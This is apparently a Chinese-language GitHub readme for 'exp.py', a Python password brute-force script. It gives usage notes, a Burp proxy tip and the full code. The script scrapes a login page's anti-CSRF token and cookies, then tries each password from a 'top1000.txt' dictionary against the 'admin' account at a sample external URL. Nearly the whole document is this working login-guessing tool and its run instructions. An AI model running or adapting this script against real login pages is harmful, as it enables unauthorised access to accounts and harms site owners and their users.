


# 注意
* 执行命令：`python exp.py -u "http://www.c3moon.com:80/login.php" -d "top1000.txt" -p "127.0.0.1:8080"`,或者执行`python exp.py -h`查看帮助信息
* 查看执行记录：
  
* 开启 `BP`后查看抓包内容：
  
* 备注：单线程比较慢，但是我个人也建议不要使用多线程去跑这些爆破脚本，很容易出事
# 附录脚本
``` python
import argparse
import re
import requests

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "zh-HK", "Accept-Encoding": "gzip, deflate", "DNT": "1", "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}

def GetUrlToken(url,proxy):
    if proxy is not "null":
        session = requests.session()
        req = session.get(url=str(url), verify=False, proxies=proxy,headers=headers)
        cookies = dict(req.cookies.items())
        url_token = re.search("[a-z0-9]{32}", req.text).group(0)
        return url_token, cookies
    else:
        session = requests.session()
        req = session.get(url=str(url), verify=False,headers=headers)
        cookies = dict(req.cookies.items())
        url_token = re.search("[a-z0-9]{32}", req.text).group(0)
        return url_token, cookies


def Login(username, password, urltoken, cookies,proxy,url):
    username = username
    password = password
    urltoken = urltoken
    data = {"username": username, "password": password, "user_token": urltoken, "Login": "Login"}
    if proxy is not "null":
        res = requests.post(url=str(url), proxies=proxy, headers=headers, cookies=cookies, data=data, verify=False,
                            allow_redirects=True)
    else:
        res = requests.post(url=str(url), headers=headers, cookies=cookies, data=data, verify=False,
                            allow_redirects=True)
    print("当前password:{}".format(password),"登录返回html长度{}".format(len(res.content)))


if __name__ == "__main__":
    try:
        parser = argparse.ArgumentParser()
        parser.description = 'please enter eg: python exp.py -u "http://www.c3moon.com:80/login.php" -d "top1000.txt" -p "127.0.0.1:8080"'
        parser.add_argument("-u", "--inputURL", help="this is parameter Target url", dest="inputURL", type=str,
                            default="null")
        parser.add_argument("-d", "--inputDictPath dict path", help="this is parameter dict_path", dest="inputDictPath",
                            type=str, default="null")
        parser.add_argument("-p", "--inputProxy", help="this is parameter proxy:port", dest="inputProxy", type=str,
                            default="null")
        args = parser.parse_args()
        print("parameter u is :", args.inputURL)
        print("parameter d is :", args.inputDictPath)
        print("parameter p is :", args.inputProxy)
        if args.inputProxy is not "null":
            proxies = {
                "http": "http://{}".format(args.inputProxy),
                "https": "https://{}".format(args.inputProxy),
            }
        else:
            proxies = {}
        if args.inputDictPath is not "null":
            try:
                password = ""
                for line in open(args.inputDictPath,'r',encoding="utf-8"):
                    urltoken, cookies = GetUrlToken(args.inputURL,proxy=proxies)
                    Login("admin",line.strip('\n'), urltoken, cookies,proxy=proxies,url=args.inputURL)
            except Exception as error:
                print(error)
        else:
            print("请输入字典路径")
    except Exception as error:
        print(error)

```
